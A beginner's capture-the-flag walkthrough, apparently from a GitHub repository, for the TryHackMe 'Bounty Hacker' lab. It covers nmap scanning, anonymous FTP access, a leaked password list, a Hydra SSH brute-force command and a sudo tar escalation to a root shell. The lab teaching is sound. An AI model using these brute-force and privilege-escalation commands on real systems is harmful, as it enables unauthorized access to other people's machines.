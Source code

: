 # Bounty Hacker

![Main Characters From Cowboy Bebop](./Assets/crew.jpg)

This [Cowboy Bebop](https://en.wikipedia.org/wiki/Cowboy_Bebop "Cowboy Bebop Wikipedia") themed room created by [Sevuhl](https://twitter.com/sevuhl "Sevuhls Twitter") is one of the many free [CTF's](https://en.wikipedia.org/wiki/Capture_the_flag_(cybersecurity) "CTF Wikipedia") available on the [TryHackMe](https://tryhackme.com "TryHackMe Website") website aimed at begginers.

---


## Deploy the machine.

Start the attack box or connect to TryHackMe via VPN. If you don't know how to connect with the VPN, check out the [OpenVPN room](https://tryhackme.com/room/openvpn "OpenVPN Room").

## Find open ports on the machine

Start by navigating to the website to check for connectivity or alternatively [ping](https://www.geeksforgeeks.org/ping-command-in-linux-with-examples/ "Ping Information") the IP.

> ping [IP Address]

Once we confirm the machine is up we can start a port scan using [nmap](https://www.freecodecamp.org/news/what-is-nmap-and-how-to-use-it-a-tutorial-for-the-greatest-scanning-tool-of-all-time/ "FreeCodeCamp Tutorial For NMAP") to see what services are running on the machine.

> nmap -A [IP Address]

The results of this nmap scan return three open ports (21, 22, 80) and the services they're currently running (ftp, ssh, http).

 But one of these sticks out and that is:

* 21/tcp open  ftp     vsftpd 3.0.3
    * ftp-anon: Anonymous FTP login allowed (FTP code 230)

[Port 21](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers "Wikipedia List Of Port Numbers And Services") is open and allows Anonymous login for the [FTP](https://www.linkedin.com/pulse/pentesting-exploiting-ftp-servers-kubotor "Article on FTP, and anonymous login") service.

Type the following command in your terminal and when it asks for your name use the word "**anonymous**"

> ftp [IP Address]

After logging in execute the following command to list all files in the directory:

```bash
ls -la
```

You should see the following output:

* -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
* -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

To download these to your current directory type:

> get locks.txt
>
> get task.txt

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## Who wrote the task list?

Reading the [task.txt](./Assets/task.txt "task.txt file") file gives us the answer to this step.

> 1.) Protect Vicious.
>
> 2.) Plan for Red Eye pickup on the moon.
>
>-lin

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## What service can you bruteforce with the text file found?

The other file we found ([locks.txt](./Assets/locks.txt "locks.txt")) looked like a password dictionary we could use for Lins SSH login.

> rEddrAGON
>
> ReDdr4g0nSynd!cat3
>
> Dr@gOn$yn9icat3
>
> R3DDr46ONSYndIC@Te
>
> ReddRA60N
>
> R3dDrag0nSynd1c4te
>
> dRa6oN5YNDiCATE
>
> ReDDR4g0n5ynDIc4te
>
> R3Dr4gOn2044
>
> RedDr4gonSynd1cat3
>
> R3dDRaG0Nsynd1c@T3
>
> Synd1c4teDr@g0n
>
> reddRAg0N
>
> REddRaG0N5yNdIc47e
>
> Dra6oN$yndIC@t3
>
> 4L1mi6H71StHeB357
>
> rEDdragOn$ynd1c473
>
> DrAgoN5ynD1cATE
>
> ReDdrag0n$ynd1cate
>
> Dr@gOn$yND1C4Te
>
> RedDr@gonSyn9ic47e
>
> REd$yNdIc47e
>
> dr@goN5YNd1c@73
>
> rEDdrAGOnSyNDiCat3
>
> r3ddr@g0N
>
> ReDSynd1ca7e


Executing the following command in your terminal will [bruteforce the SSH](https://www.linuxfordevices.com/tutorials/linux/hydra-brute-force-ssh "Article On SSH Brute Force") password for Lin using [Hydra](https://en.wikipedia.org/wiki/Hydra_(software) "Hydra Wikipedia").

> hydra -l lin -P [path/to/wordlist] [IP ADDRESS] ssh


## What is the users password?

Use the [locks.txt](./Assets/locks.txt "Password Dictionary") file as the wordlist to Hydra. Brute force the SSH with "lin" as the username.

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## user.txt

Once you have the password SSH into lins account.

> ssh lin@[IP Address]

Execute the following commands to list all files within the current directory.

```bash
ls -la
```

You should see the following output:

* drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
* drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
* -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

Use the cat command to read the user.txt file where you'll find the flag.

```bash
cat user.txt
```

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## root.txt

Now that we're in the system we need to escalate our priviliges to gain access to root and find the last flag.

We can start by checking if the current user (lin) has any sudo priviliges. This can be done with the following command:

```bash
sudo -l
```

Which returns the following:

* User lin may run the following commands on bountyhacker:
    * (root) /bin/tar

Looking up the [tar binary on GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo "GTFOBins Tar Entry") we see the following command for getting root privilege:

"**sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh**"

You should now be root. Verify this by using the following command:

```bash
whoami
```

Now to finish the room, run the following commands to find and read the flag file:

```bash
ls -la /root
cat /root/root.txt
```

Breaking this down-

If we lookup the help file on tar:

```bash
tar --help
```

We can find out what the -cf flag does:

> tar -cf archive.tar foo bar  # Create archive.tar from files foo and bar.

What the --checkpoint=1 flag does:

> --checkpoint[=NUMBER]  display progress messages every NUMBERth record (default 10)

And finally what the --checkpoint-action-=exec=/bin/sh flag does:

> --checkpoint-action=ACTION   execute ACTION on each checkpoint

We're using [tar](https://linuxhint.com/what-is-tar-file/ "Article On Tar Files") as sudo to create a tar from [/dev/null](https://linuxhint.com/what_is_dev_null/ "Article On Using /dev/null") to /dev/null and using the checkpoint action to [exec](https://phoenixnap.com/kb/linux-exec "Article On The Linux Exec Command") a shell and maintain the privilige.

---

### [BACK TO TOP](#bounty-hacker "Top Of Page")